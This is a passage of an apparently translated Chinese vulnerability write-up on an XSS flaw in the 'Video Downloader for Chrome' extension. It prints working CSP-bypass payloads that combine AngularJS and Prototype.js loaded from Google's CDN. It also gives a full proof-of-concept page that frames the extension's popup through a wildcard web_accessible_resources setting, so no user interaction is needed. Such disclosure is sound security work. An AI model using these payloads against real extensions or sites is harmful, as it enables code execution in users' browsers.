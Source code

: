 这个挑战有多种解法，其中比较机智的解法是使用如下载荷：

```
"ng-app ng-csp&gt;&lt;base href=//ajax.googleapis.com/ajax/libs/&gt;&lt;script src=angularjs/1.0.1/angular.js&gt;&lt;/script&gt;&lt;script src=prototype/1.7.2.0/prototype.js&gt;&lt;/script&gt;`{``{`$on.curry.call().alert(1337
```

提供该解法的参赛者提到如下一段话：

> 这种解法非常有趣，将Prototype.js与AngularJS结合起来就能实现滥用目标。AngularJS可以成功禁止用户使用其集成的沙盒来访问窗口，然而Prototype.JS使用了`curry`属性扩展了代码功能。一旦在该属性上使用`call()`调用，就会返回一个窗口对象，而AngularJS不会注意到这个操作。这意味着我们可以使用Prototype.JS来获取窗口，然后几乎可以执行该对象的所有方法。
在白名单中的Google-CDN站点提供了比较过时的AngularJS版本以及Prototype.JS，这样我们就能访问窗口操作所需的数据，并且不需要用户操作就能完成该任务。

修改这个载荷后，我们也可以将其用在这个扩展上。如下载荷使用了相同的技术来执行`alert('XSS in Video Downloader for Chrome by mandatory')`：

```
"ng-app ng-csp&gt;&lt;script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js&gt;&lt;/script&gt;&lt;script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js&gt;&lt;/script&gt;`{``{`$on.curry.call().alert('XSS in Video Downloader for Chrome by mandatory')`}``}`&lt;!--

```

点击插件图标后，就会弹出警告窗口，如下所示：

[![](https://p4.ssl.qhimg.com/t0148e3ef73aca1c16e.png)](https://p4.ssl.qhimg.com/t0148e3ef73aca1c16e.png)

现在我们已经可以在插件上下文中执行任意JavaScript代码，也能滥用该插件能访问的所有Chrome插件API。然而，攻击过程中我们的确需要用户在我们的恶意页面上点击插件图标。在构造利用路径时，我们最好不要将弱点暴露给别人，因此我们还是要尝试下无需用户交互的利用过程。

回到`manifest.json`，我们可以看到`web_accessible_resources`指令的值如下：

```
"web_accessible_resources": [
    "*"
]
```

这里只使用了一个通配符，意味着任意网页都可以以`&lt;iframe&gt;`方式引用插件中包含的任意资源。在这种情况下，我们需要包含的资源是`popup.html`页面。通常情况下，只有当用户点击插件图标时才会显示该页面。以`&lt;iframe&gt;`方式引用该页面，再配合我们之前构造的载荷后，我们就能获得无需用户交互的漏洞利用方式：

[![](https://p3.ssl.qhimg.com/t013a196daa3573e165.png)](https://p3.ssl.qhimg.com/t013a196daa3573e165.png)

最终载荷如下所示：

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;body&gt;
    &lt;a href="https://"ng-app ng-csp&gt;&lt;script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js&gt;&lt;/script&gt;&lt;script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js&gt;&lt;/script&gt;`{``{`$on.curry.call().alert('XSS in Video Downloader for Chrome by mandatory')`}``}`&lt;!--.flv"&gt;test&lt;/a&gt;

    &lt;iframe src="about:blank" id="poc"&gt;&lt;/iframe&gt;

    &lt;script&gt;
    setTimeout(function() `{`
        document.getElementById( "poc" ).setAttribute( "src", "chrome-extension://dcfofgiombegngbaofkeebiipcdgpnga/html/popup.html" );
    `}`, 1000);
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;

```
